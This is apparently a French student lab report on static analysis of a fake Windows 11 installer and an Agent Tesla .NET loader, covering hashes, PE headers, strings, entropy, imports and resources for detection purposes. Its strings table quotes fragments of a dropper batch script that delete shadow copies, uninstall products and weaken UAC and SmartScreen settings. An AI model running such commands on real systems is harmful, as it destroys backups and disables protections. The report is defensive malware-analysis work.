# TP2 — Analyse statique de malwares

**Auteur :** Chikhaoui Youcef Chihab Eddine  
**Date :** 20 octobre 2026  
**Cours :** CYS3CS — Analyse de malwares

**Échantillons étudiés :**

- `windows11-setup_11_45288.exe` — faux installateur « Windows 11 » basé sur Inno Setup ;
- `agentTesla.exe` — loader .NET étiqueté Agent Tesla.

**Outils utilisés :** `file`, `exiftool`, `readpe`, `pefile`, `strings`, FLOSS, Detect It Easy, `rizin`/Cutter, `innoextract`, `osslsigncode`, `monodis`, `yara` 4.5.2, `capa`, Python.

---

## Introduction

Ce TP porte sur l'analyse statique de deux échantillons qui illustrent deux modes d'infection différents. Le premier est un faux installateur Windows 11 qui embarque plusieurs fichiers dans une archive Inno Setup. Le second est un loader .NET qui reconstruit un PE en mémoire à partir d'une ressource bitmap, puis le charge par réflexion.

Je n'ai exécuté aucun des binaires. Toutes les observations viennent de la lecture des en-têtes, des chaînes, des sections, des imports, des ressources et du code intermédiaire .NET. L'objectif est de reconstruire la chaîne d'infection, d'identifier les artefacts utiles à la détection et de proposer des règles YARA ainsi qu'une liste d'IoC.

Les deux échantillons ne semblent pas liés entre eux. Le premier est une chaîne de type dropper/installateur, avec des scripts batch et un outil d'élévation de privilèges. Le second est un loader .NET relativement classique dans sa structure, mais protégé par de l'obfuscation et un chargement en mémoire.

---

## Démarche et limites

J'ai travaillé dans un répertoire dédié, avec les payloads extraits conservés dans `extraction/`. Les commandes principales ont été :

```bash
file --mime-type windows11-setup_11_45288.exe agentTesla.exe
sha256sum windows11-setup_11_45288.exe agentTesla.exe
readpe -h coff windows11-setup_11_45288.exe
readpe -h optional windows11-setup_11_45288.exe
floss -q --only static -- agentTesla.exe
python3 section_entropy.py windows11-setup_11_45288.exe agentTesla.exe
diec windows11-setup_11_45288.exe
rizin -q -e scr.color=0 -c 'aa; s entry0; agC' windows11-setup_11_45288.exe
innoextract -e -d /tmp/opencode/inno_out windows11-setup_11_45288.exe
monodis --output=agentTesla_disasm.il agentTesla.exe
yara detection_pe_improved.yar <fichier>
capa -q agentTesla.exe
```

Les calculs d'entropie et d'imphash ont été faits avec `pefile` et recoupés avec `readpe`. Le désassemblage natif a été fait avec `rizin` en mode headless, et le désassemblage .NET avec `monodis`.

Les limites sont importantes à garder en tête :

- pas d'analyse dynamique, donc pas d'observation réelle des processus, du registre ou du réseau ;
- le script Pascal compilé dans l'installateur Inno n'est pas extractible avec `innoextract` 1.9, donc l'ordre exact des entrées `[Run]` reste hypothétique ;
- `yb.exe` et le `.scr` sont packés et n'ont pas été décompressés ;
- le stage 2 .NET est obfusqué et son rôle exact n'a pas été déterminé ;
- aucune configuration C2 n'a été trouvée en clair.

---

## Étape 1 — Type de fichier et signature

{width=100%}

La commande `file --mime-type` identifie les deux fichiers comme des exécutables Windows :

```
windows11-setup_11_45288.exe: application/vnd.microsoft.portable-executable
agentTesla.exe: application/vnd.microsoft.portable-executable
```

Cette information est utile mais reste très générale. Elle ne distingue pas un exécutable natif d'un assembly .NET, ni un installateur légitime d'un dropper. Il faut regarder les en-têtes PE pour cela.

La vérification de signature avec `osslsigncode` donne un résultat net pour l'installateur :

```
Current PE checksum : 00000000
Unable to extract existing signature
Failed
```

Il n'y a donc **aucune signature Authenticode** sur `windows11-setup_11_45288.exe`. Le checksum PE à zéro n'est pas une erreur en soi : beaucoup de linkers ne le remplissent pas. En revanche, l'absence de signature sur un fichier qui prétend être un assistant Microsoft est déjà un signal fort.

| Propriété | `windows11-setup_11_45288.exe` | `agentTesla.exe` |
|---|---|---|
| Type | PE32, GUI, Intel 386 | PE32, .NET, GUI, Intel 386 |
| Taille | 36 050 177 o (34,38 Mio) | 1 378 304 o (1,31 Mio) |
| Signature Authenticode | absente | absente |
| Horodatage PE | 2021-06-03 08:09:11 UTC | 2026-08-19 03:47:26 UTC |
| Checksum | `0x00000000` | `0x00000000` |

Pour `agentTesla.exe`, l'absence de signature est moins surprenante : beaucoup de loaders .NET sont livrés non signés. Le nom interne et les métadonnées sont plus intéressants (voir étape 3).

---

## Étape 2 — Hachages et imphash

{width=100%}

Les hachages permettent d'identifier les fichiers de manière unique et de les corréler avec d'autres sources. J'ai calculé MD5, SHA-1, SHA-256, ssdeep et l'imphash pour les deux échantillons principaux.

| Algorithme | `windows11-setup_11_45288.exe` | `agentTesla.exe` |
|---|---|---|
| MD5 | `3580f6a43d4fefe44511af143ed29cc1` | `7b74c156f3a799fe37555d243d9eac38` |
| SHA-1 | `3540c8049a63d546b166f357ff4e058f529ebf6f` | `c3bcdd51acae0e6a21245448dfd8c8cb70fdb0c9` |
| SHA-256 | `bda5bd9df17bef6b97dfafa16a73d0a690b7b0548ee74e5cccb13a9d73b18877` | `27d59d2d36b35f55633fcae515720dfddabaad7984e6dae75343002d242ba0b3` |
| ssdeep | `786432:XkHiLGD67reN+8kkHiLGD67reN+8kkHiLGD67reN+8T:XzGD67rePkzGD67rePkzGD67rePT` | `24576:h+y3UKdEkXwvDGyQ4DU8QXmmx0cYyAMZaJnZLzyaN3OMZu:hnzGDLQ4op1x0dyANJn95dZu` |
| imphash | `5a594319a0d69dbc452e748bcf05892e` | `f34d5f2d4577ed6d9ceec516c1f5a744` |

L'imphash de `agentTesla.exe` est le même que celui de nombreux exécutables .NET qui n'importent que `mscoree.dll!_CorExeMain`. Il n'est donc pas discriminant pour cette famille : il confirme le stub .NET, pas la souche.

Les payloads extraits ont également été hachés :

| Fichier | SHA-256 | imphash |
|---|---|---|
| `rp.exe` | `73b99bb8357de2e6667860d0fa9a554db1a55c169e63b689fae6a1c65faa6232` | `ad8a4c67d419c46b8f4be6df044c3dc4` |
| `yb.exe` | `b26c08f408692cbfe55a10a9097e2cea37f942f23e2ad9a51c978cdd2c9c95e9` | `38499fbd287dea2512b08957288d606e` |
| `Windows11InstaIIationAssistant.scr` | `b197522d218e972e8fe965032f47ec4e483b698709ac83640f1583feb5a67fb4` | `340db3b6a61222327eddde33056bbc5a` |
| `lfd.cmd` | `12ae9141c0b8c1c98b71bc1923b7cf4b94b3bfd53b648149ad59837a42cbb07d` | — |
| `agentTesla_stage2.dll` | `5655d667e4c9c096a3cc0735c614158f9cbcd53226c7a71e6c504be4371a57c4` | `dae02f32a21e03ce65412f6e56942daa` |

Le ssdeep de l'installateur est très répétitif, ce qui est cohérent avec un gros fichier Inno Setup contenant de nombreuses ressources similaires. Ce n'est pas un indicateur de malware en soi, mais cela aide à rapprocher des variantes construites avec le même outil.

---

## Étape 3 — En-têtes PE et métadonnées

{width=100%}

La commande `readpe -h coff` confirme les informations principales de l'installateur :

```
Machine: 0x14c IMAGE_FILE_MACHINE_I386
Number of sections: 10
Date/time stamp: 1622707751 (Thu, 03 Jun 2021 08:09:11 UTC)
```

| Propriété | `windows11-setup_11_45288.exe` | `agentTesla.exe` |
|---|---|---|
| Machine | `0x014C` (i386) | `0x014C` (i386) |
| Nombre de sections | 10 | 3 |
| SizeOfOptionalHeader | `0x00E0` | `0x00E0` |
| Subsystem Version | 6.1 (Windows GUI) | 6.0 (Windows GUI) |
| DllCharacteristics | `0x8140` | `0x8560` |
| Point d'entrée | `0x000B5EEC` | `0x0014F71E` |
| ImageBase | `0x00400000` | `0x00400000` |
| Checksum | `0` | `0` |
| Overlay | 35 229 953 o (`zlb\x1a`) | 0 |

Pour `agentTesla.exe`, l'en-tête CLR est plus parlant que l'en-tête PE :

| Champ CLR | Valeur |
|---|---|
| Runtime | 2.5 |
| Metadata RVA / taille | `0x2E068` / 103 852 o |
| Flags | `0x00000003` (ILONLY, 32BITREQUIRED) |
| EntryPointToken | `0x06000001` (`Program.Main`) |
| Assembly | `kTrh`, version `14.3.7.0` |
| Module | `kTrh.exe`, GUID `{D35915AF-4BBF-46A1-A681-989E30C3BD4F}` |

Les métadonnées de version de l'installateur sont clairement usurpées :

| Champ | Valeur |
|---|---|
| CompanyName | Microsoft Corporation |
| FileDescription | WindowsInstallationAssistant |
| ProductName | Windows11InstallationAssistant |
| FileVersion / ProductVersion | 1.4.19041.1401 |
| Comments | This installation was built with Inno Setup. |
| LegalCopyright | (vide) |

J'ai recoupé ces champs avec `exiftool` ; les valeurs sont identiques.

Le build `19041` correspond à Windows 10 2004, pas à Windows 11. Le commentaire « built with Inno Setup » trahit l'outil de création. Pour `agentTesla.exe`, les métadonnées affichent « Planetcraft Technologies » et « TerraGen Enterprise », alors que l'assembly interne s'appelle `kTrh` : c'est un décorum destiné à faire passer le loader pour un moteur de génération de terrain.

---

## Étape 4 — Chaînes de caractères

{width=100%}

J'ai utilisé `strings` et FLOSS. Pour un binaire .NET, FLOSS précise qu'il ne désobfusque pas les chaînes gérées :

```
WARNING: floss: .NET language-specific string extraction is not supported yet
floss: FLOSS does NOT attempt to deobfuscate any strings from .NET binaries
```

Les chaînes restent malgré tout utiles, car le loader contient des noms de types et de méthodes en clair.

| Fichier | Chaînes remarquables |
|---|---|
| `windows11-setup_11_45288.exe` | `This installation was built with Inno Setup.`, `Windows11InstallationAssistant`, `Microsoft Corporation`, `JR.Inno.Setup`, `Inno Setup Setup Data (6.1.0)` |
| `agentTesla.exe` | `Sikl`, `GcfN`, `_-__-__-_TerraGenEnterprise_-_4763664E_-_7A7168`, `TransducerExtractor`, `Transduce`, `_myStudio`, `InvokeMember`, `GetExportedTypes` |
| `rp.exe` | `PowerRun:v1.5`, `PowerRun has been created to run Applications with Elevated Privileges`, `Sordum Software`, `www.sordum.org` |
| `yb.exe` | `mscoree.dll`, `api-ms-win-core-synch-l1-2-0`, noms de jours/mois (.NET) |
| `.scr` | `GoodMorning` (overlay), `mSvbVm60.dLl` |
| `lfd.cmd` | `vssadmin delete shadows`, `wmic product ... call uninstall`, `ConsentPromptBehaviorAdmin`, `SmartScreen` |
| `stage2` | `System Cleaner Pro`, noms de types Unicode obfusqués |

L'installateur contient environ **461 770 chaînes ASCII** et **1 089 chaînes UTF-16**. Le loader Agent Tesla en contient environ **12 072 ASCII** et **813 UTF-16**. Aucune URL, adresse IP ou clé de configuration n'apparaît en clair.

Les chaînes de `rp.exe` identifient formellement **Sordum PowerRun v1.5**, un outil légitime d'exécution avec des privilèges élevés. C'est un point important : la présence de cet outil n'est pas une preuve de malware, mais son association avec un faux installateur et sa signature invalide sont très suspectes. Le marqueur `GoodMorning` dans l'overlay du `.scr` ressemble à un marqueur de crypter.

---

## Étape 5 — Sections et entropie

{width=100%}

Les sections de l'installateur sont celles d'un exécutable Delphi/Inno Setup classique :

| Section | VA | VSize | RawPtr | RawSize | Entropie |
|---|---:|---:|---:|---:|---:|
| `.text` | `0x1000` | `0xB361C` | `0x400` | `0xB3800` | 6.36 |
| `.itext` | `0xB5000` | `0x1688` | `0xB3C00` | `0x1800` | 5.97 |
| `.data` | `0xB7000` | `0x37A4` | `0xB5400` | `0x3800` | 5.04 |
| `.bss` | `0xBB000` | `0x6DE8` | 0 | 0 | 0.00 |
| `.idata` | `0xC2000` | `0xF36` | `0xB8C00` | `0x1000` | 4.90 |
| `.didata` | `0xC3000` | `0x1A4` | `0xB9C00` | `0x200` | 2.76 |
| `.edata` | `0xC4000` | `0x9A` | `0xB9E00` | `0x200` | 1.87 |
| `.tls` | `0xC5000` | `0x18` | 0 | 0 | 0.00 |
| `.rdata` | `0xC6000` | `0x5D` | `0xBA000` | `0x200` | 1.38 |
| `.rsrc` | `0xC7000` | `0xE01C` | `0xBA200` | `0xE200` | 3.15 |

Le `.text` à 6.36 n'est pas révélateur d'un packer. L'essentiel des données (environ 33,6 Mo) est dans l'overlay Inno Setup, dont l'entropie est de **7.99**. C'est cohérent avec une archive compressée, pas nécessairement avec du code chiffré.

Le loader Agent Tesla n'a que trois sections :

| Section | VA | VSize | RawPtr | RawSize | Entropie |
|---|---:|---:|---:|---:|---:|
| `.text` | `0x2000` | `0x14D724` | `0x200` | `0x14D800` | 7.47 |
| `.rsrc` | `0x150000` | `0x2A80` | `0x14DA00` | `0x2C00` | 7.52 |
| `.reloc` | `0x154000` | `0xC` | `0x150600` | `0x200` | 0.10 |

L'entropie élevée du `.text` (7.47) est typique d'un assembly .NET compilé et obfusqué, mais aussi de ressources embarquées compressées. Elle ne suffit pas à conclure à un packer natif.

Les payloads sont plus suspects :

| Fichier | Sections | Particularités | Entropie max |
|---|---:|---|---:|
| `rp.exe` | 5 | Sections MSVC classiques ; overlay de 124 Ko à entropie 8.0 | 6.43 (`.text`) |
| `yb.exe` | 9 | Noms aléatoires, 6 sections à `RawSize = 0`, une seule section de données | 7.84 |
| `.scr` | 7 | 5 sections à `RawSize = 0`, noms aléatoires, EP dans un stub `jmp` | 7.81 |
| `stage2` | 3 | .NET DLL, `.text` à 5.85 | 5.85 |

`yb.exe` concentre toutes ses données dans une section `oS%n6\>p` de `0x117200` octets, avec une entropie de 7.84. Son point d'entrée commence par `E9 0B BF FF FF`, un `jmp` vers l'arrière : c'est typique d'un stub de packer. Le `.scr` présente les mêmes signes, avec un overlay de 7,5 Mo à entropie 8.0 commençant par `GoodMorning`. `rp.exe` a un overlay de 124 Ko à entropie 8.0, mais il peut s'agir d'un helper légitime de PowerRun ou de données chiffrées ; je ne le classe pas comme packé sans preuve supplémentaire.

---

## Étape 6 — Import Address Table

{width=100%}

L'installateur importe **7 DLL et 138 fonctions** :

| DLL | Fonctions |
|---|---:|
| `kernel32.dll` | 99 |
| `user32.dll` | 16 |
| `oleaut32.dll` | 11 |
| `advapi32.dll` | 6 |
| `version.dll` | 3 |
| `netapi32.dll` | 2 |
| `comctl32.dll` | 1 |

Les API notables sont `VirtualAlloc`, `VirtualProtect`, `CreateProcessW`, `CreateThread`, `LoadLibraryA/W/ExW`, `GetProcAddress`, `Sleep`, `GetTickCount`, `GetModuleFileNameW`, `RegOpenKeyExW` et `RegQueryValueExW`. Elles sont cohérentes avec le runtime Inno Setup/Delphi : allocation mémoire, chargement de DLL, création de processus pour les entrées `[Run]`, lecture du registre. Elles ne prouvent pas à elles seules une intention malveillante ; la malveillance est dans les fichiers embarqués.

Le loader Agent Tesla n'importe qu'une seule fonction native :

```
mscoree.dll!_CorExeMain
```

C'est le stub .NET standard. Toute la logique est en IL, donc l'analyse de l'IAT native n'est pas pertinente. Il faut passer par les métadonnées .NET.

Les payloads ont des IAT très différentes :

| Fichier | DLL / fonctions | API notables |
|---|---|---|
| `rp.exe` | 16 / 517 | `WinINet` (HTTP/FTP), `WSOCK32`, `VirtualAllocEx`, `WriteProcessMemory`, `CreateProcessAsUserW`, `CreateProcessWithLogonW`, `OpenSCManagerW`, `RegSetValueExW`, `EnumProcesses`, `IsDebuggerPresent`, `OutputDebugStringW`, `GetTickCount`, `QueryPerformanceCounter` |
| `yb.exe` | 5 / 10 | `RaiseException`, `ShowWindow`, `CoInitializeEx`, `GetModuleFileNameW`, `LoadLibraryA`, `LocalAlloc`, `ExitProcess` |
| `.scr` | 7 / 17 | `mSvbVm60.dll` (ordinal 516), `MessageBoxW`, stub packer (`LoadLibraryA`, `LocalAlloc`, etc.) |
| `stage2` | 1 / 1 | `mscoree.dll!_CorExeMain` |

`rp.exe` est un outil Windows complet (GUI, réseau, registre, processus), pas un petit loader. Les imports réseau et d'injection sont des **capacités** de l'outil, pas nécessairement utilisées dans ce scénario. `yb.exe` et `.scr` ont des IAT minimales, ce qui confirme le stub de packer.

---

## Étape 7 — Detect It Easy et packing

{width=100%}

Detect It Easy confirme l'identité des deux fichiers :

```
windows11-setup_11_45288.exe : PE32
  Linker: Turbo Linker(2.25*, Delphi) [GUI32]
  Compiler: Embarcadero Delphi(10.3 Rio) [Professional]
  Installer: Inno Setup Module(6.1.0) [unicode]

agentTesla.exe : PE32
  Linker: Microsoft Linker
  Library: .NET Framework(v4.8, CLR v4.0.30319)
```

Pour l'installateur, DIE identifie le couple Delphi/Inno Setup 6.1.0. C'est cohérent avec les chaînes et l'overlay `zlb`. Le fichier n'est pas packé au sens classique : c'est un conteneur Inno Setup qui contient une archive compressée.

Pour `agentTesla.exe`, DIE voit un binaire .NET compilé pour .NET Framework 4.8. L'en-tête CLR indique un runtime 2.5, ce qui peut sembler contradictoire ; en pratique, le runtime metadata et la version de framework ciblée sont deux choses différentes. Le loader est bien un assembly .NET, pas un exécutable natif obfusqué.

| Fichier | Indices | Conclusion |
|---|---|---|
| `windows11-setup_11_45288.exe` | Overlay Inno de 33,6 Mo (entropie 7.99), pas de packing du PE lui-même | Conteneur Inno Setup, pas un packer classique |
| `agentTesla.exe` | .NET, 736 méthodes, 250 appels `Thread.Sleep`, classes leurres, ressources managées, réflexion | Obfuscation .NET et chargement furtif |
| `rp.exe` | Signature invalide, overlay de 124 Ko à entropie 8.0 | Binaire légitime modifié ; overlay à examiner |
| `yb.exe` | 9 sections, noms aléatoires, 6 sections vides, entropie 7.84, EP `jmp` | **Packé** (stub + payload compressé/chiffré) |
| `.scr` | 7 sections, noms aléatoires, entropie 7.81, overlay de 7,5 Mo (`GoodMorning`), EP `jmp` | **Packé** + charge utile overlay |
| `stage2` | Noms Unicode obfusqués, AssemblyRef corrompue (`mscorlib 65535`), `monodis` s'arrête | Obfuscation anti-RE (style ConfuserEx) |

Le script `lfd.cmd` mérite une mention à part : il est en ASCII précédé d'un BOM UTF-16LE (`FF FE`), avec une casse aléatoire (`REg aDd`, `hKLm`, `PoLicIES`). Cela trompe `file`, `iconv` et certains grep, et gêne les signatures textuelles. Ce n'est pas du packing, mais c'est une technique d'évasion simple et efficace.

---

## Étape 8 — Ressources

{width=100%}

Les ressources natives de l'installateur sont classiques pour un projet Delphi/Inno Setup :

| Type | ID | Taille | Contenu |
|---|---|---:|---|
| `RT_ICON` (3) | 1–8 | 893 à 16 936 o | 8 icônes |
| `RT_STRING` (6) | 4086–4096 | 156 à 1 116 o | 11 tables de chaînes |
| `RT_RCDATA` (10) | — | 16, 708, 44 o | `DVCLAL`, `PACKAGEINFO`, donnée 11111 |
| `RT_GROUP_ICON` (14) | — | 118 o | `MAINICON.ico` |
| `RT_VERSION` (16) | 1 | 1 412 o | Métadonnées de version |
| `RT_MANIFEST` (24) | 1 | 1 830 o | Manifeste `JR.Inno.Setup` |

L'extraction complète avec `innoextract` donne **174 fichiers** : 170 images/icônes et 4 fichiers non graphiques. Les payloads ne sont pas dans `.rsrc` mais dans l'overlay Inno compressé. C'est une différence importante : une analyse des ressources natives ne suffit pas à voir les fichiers malveillants.

Le loader Agent Tesla contient des ressources managées dans six flux `.mresource`. Tous les noms commencent par `TerraGenEnterprise.` ; je n'ai gardé que le suffixe dans le tableau pour qu'il reste lisible :

::: {.resources-table}
| Flux (suffixe) | Offset | Taille | Contenu |
|---|---:|---:|---|
| `EnterpriseDashboardView.resources` | 0 | 181 078 o | `Sikl` (170 784 o) |
| `Properties.Resources.resources` | 181 088 | 879 730 o | `GcfN` (879 424 o) |
| `TerrainVisualizationCanvas.resources` | 1 060 824 | 180 o | vide |
| `GenerationParametersConfigurationView.resources` | 1 061 008 | 180 o | vide |
| `BiomeStatisticsReportingView.resources` | 1 061 192 | 10 160 o | vide/decoy |
| `PathfindingSimulationView.resources` | 1 071 360 | 10 160 o | vide/decoy |
:::

La ressource `Sikl` est un objet `System.Drawing.Bitmap` sérialisé de 170 784 octets. Le BMP commence à l'offset 161 : signature `BM`, taille 170 622 o, offset pixels 54, DIB 40 o, largeur 207, hauteur 206, plans 1, 32 bpp, compression 0 (`BI_RGB`). Les pixels utiles commencent à l'offset 54 du BMP. C'est cette image qui sert de support au payload.

La ressource `GcfN` est également un Bitmap sérialisé de 879 424 octets. Elle n'est pas utilisée par le chemin de chargement identifié ; elle peut servir de leurre ou de seconde charge. Je ne l'ai pas décompressée.

---

## Étape 9 — Analyse des payloads

